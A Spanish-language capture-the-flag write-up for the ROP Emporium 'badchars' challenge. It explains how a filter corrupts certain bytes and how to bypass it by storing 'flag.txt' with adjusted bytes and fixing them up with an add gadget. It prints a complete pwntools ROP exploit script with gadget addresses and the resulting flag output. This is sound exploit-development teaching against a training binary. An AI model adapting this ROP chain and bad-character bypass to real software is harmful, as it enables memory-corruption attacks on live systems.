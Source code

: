 Este ejercicio es el mismo que [write4](https://ub1cu0.gitbook.io/pwn-writeups/ropemporium/4.-write4-x86_64) con una pequeña diferencia.

En este ejercicio la función donde teníamos el buffer overflow hay un bucle que, si nuestro payload tiene ciertos  valores los cambiará a otro valor, lo cual romperá nuestro Rop:

```c
input = read(0, array, 0x200);

for (x = 0; x < input; x = x + 1) {
    for (y = 0; y < 4; y = y + 1) {
        if (array[x] == "xga.badchars by ROP Emporium"[y]) { // Pilla x, g, a y x como badchars
            array[x] = -0x15;
        }
    }
}
```

Recordemos que en nuestro solve pasamos `flag.txt` al .bss, con lo cual mandamos el `flag.txt` en el payload:

```python
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt', # Esto mete badchars
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })
```

Para poder saltarnos esta barrera podemos pasar flag.txt a hexadecimal, restar un byte a cada letra que era un badchar y luego, justo antes de pasárselo como parámetro a la función, sumarle 1 byte con un gadget que tenga por ejemplo  `add` como  `add byte ptr [r15], r14b ; ret`

Con esto podemos pasar a la creación del exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("badchars")
libc = ELF("libbadchars.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_r13_r12 = 0x00400634 # mov qword ptr [r13], r12 ; ret
    pop_r12_r13_r14_r15 = 0x0040069c # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    add_byte = 0x0040062c # add byte ptr [r15], r14b ; ret
    
    payload = flat(
            b'B' * offset,
            pop_r12_r13_r14_r15, b"\x66\x6c\x60\x66\x2d\x74\x77\x74", exe.bss(), 0x69, 0x69,
            mov_r13_r12, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x2,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x3,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x4,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x6,
            add_byte, 
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
    )
    
    bad = b"xga."
    found = False
    for i, bch in enumerate(payload):
        if bch in bad:
            print(f"[badchar] {chr(bch)!r} en payload[{i}]")
            found = True
    if not found:
        print("[badchar] ninguno")

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
